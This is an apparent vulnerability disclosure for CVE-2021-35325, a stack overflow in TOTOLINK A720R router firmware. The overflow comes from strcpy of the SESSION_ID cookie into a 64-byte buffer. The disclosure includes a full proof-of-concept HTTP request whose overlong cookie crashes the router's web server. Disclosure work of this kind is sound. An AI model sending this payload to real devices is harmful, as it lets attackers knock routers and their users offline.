


# TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Stack overflow

Author:Huizhao Wang, Chuan Qin

Institution:wanghuizhao@iie.ac.cn, qinchuan@iie.ac.cn

## Vulnerability description

We found a stack overflow vulnerability in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to crash the server.

In `checkLoginUser` function, `ws_get_cookie` parses the cookie data in the HTTP request and pass cookie_buffer parameter.



In `ws_get_cookie` function, `strstr` gets the location of  `SESSION_ID` and then `strcpy` the content after `=` to the buffer. If the length of the data exceeds `64`, stack overflow will occur.



## POC

Sending the following GET request will cause the web server to crash.

```http
GET /advance/config.html?time=1623724425083 HTTP/1.1
Host: 192.168.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/advance/changepwd.html?time=1623724423096
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1623661990:2aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Connection: close
```

## CVE info

CVE-2021-35325
